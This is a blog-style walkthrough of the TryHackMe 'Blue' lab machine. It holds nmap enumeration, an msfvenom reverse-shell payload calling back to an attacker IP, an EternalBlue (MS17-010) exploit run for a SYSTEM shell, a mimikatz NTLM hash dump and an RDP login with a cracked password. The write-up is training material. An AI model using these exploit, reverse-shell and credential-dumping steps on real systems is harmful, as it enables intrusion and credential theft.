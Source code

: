 ```yaml
---
layout : post
author: N0xi0us
title: Blue Writeup [THM]
date: 2020-08-08 18:00:00 +/- 0000
categories: [Machine-Writeup, Tryhackme]
tags: [Eternalblue,Mimikatz,OSCP Path]
headline: Blue is a beginner-friendly Windows machine from tryhackme , where we exploit the famous eternalblue MS17-010 and dump NTLM hashes with mimikatz.
image: /assets/img/Blue/Blue.png
---
```


Blue is a beginner-friendly Windows machine from tryhackme , where we exploit the famous eternalblue MS17-010 and dump NTLM hashes with mimikatz.
## Enumeration

Running nmap :
```shell
nmap -sC -sV -o nmap.txt 10.10.86.230
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

We see that smb port is open, as the machine name is Blue it may hint that is vulnerable to Eternablue exploit, running nmap again to check it :
  ```shell
  nmap -p445 --script vuln 10.10.86.230
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-08 16:13 CEST
  Nmap scan report for 10.10.86.230
  Host is up (0.040s latency).

  PORT    STATE SERVICE
  445/tcp open  microsoft-ds
  |_clamav-exec: ERROR: Script execution failed (use -d to debug)

  Host script results:
  |_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
  |_smb-vuln-ms10-054: false
  |_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
  | smb-vuln-ms17-010:
  |   VULNERABLE:
  |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
  |     State: VULNERABLE
  |     IDs:  CVE:CVE-2017-0143
  |     Risk factor: HIGH
  |       A critical remote code execution vulnerability exists in Microsoft SMBv1
  |        servers (ms17-010).
```
Nmap reports that the machine is vulnerable to MS17-010 therefore we will use the following set of tools to exploit it : <https://github.com/3ndG4me/AutoBlue-MS17-010>  with it we can create the shellcode, set up a listener and exploit the machine.
## Exploitation

We will generate the malicious shellcode using msfvenom:
```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.14.106 LPORT=443 -f raw -o sc.bin EXITFUNC=thread
```
Now in order to obtain a shell we use the exploit contained in AutoBlue-MS17-010

```shell
python eternalblue_exploit7 10.10.86.230 sc.bin
```

After running the exploit a few times we finally get a shell as nt authority\system

```shell
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.14.106] from (UNKNOWN) [10.10.86.230] 49186
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Windows\system32>whoami
nt authority\system
```
## Post-exploitation

Finally we will dump administrator hashes using mimikatz, this is a good post-exploitation practice for mantaining access to the machine

Uploading mimikatz through smbserver:
```shell
smbserver.py smbfolder .
```
In the victim machine :
```shell
C:\Windows\System32>copy \\10.11.14.106\smbfolder\mimikatz.exe
copy \\10.11.14.106\smbfolder\mimikatz.exe
        1 file(s) copied.
```
Dumping hashes with mimikatz

```shell
mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Mar  8 2020 18:30:37
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # lsadump::sam
Domain : JON-PC
SysKey : 55bd17830e678f18a3110daf2c17d4c7
Local SID : S-1-5-21-2633577515-2458672280-487782642

SAMKey : c74ee832c5b6f4030dbbc7b51a011b1e

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Jon
  Hash NTLM: ffb43f0de35be4d9917ac0cc8ad57f8d
  ```
As port 3389 is open we can crack those hashes and login through rdp protocol using rdesktop

![hash](/assets/img/Blue/hash.png)


The administrator hash is a blank hash , but we were able to obtain Jon cracked password

```shell
rdesktop 10.10.86.230 -g 80% -u Jon -p alqfna22
```
We login succesfully as Jon

![login](/assets/img/Blue/rdp.png)
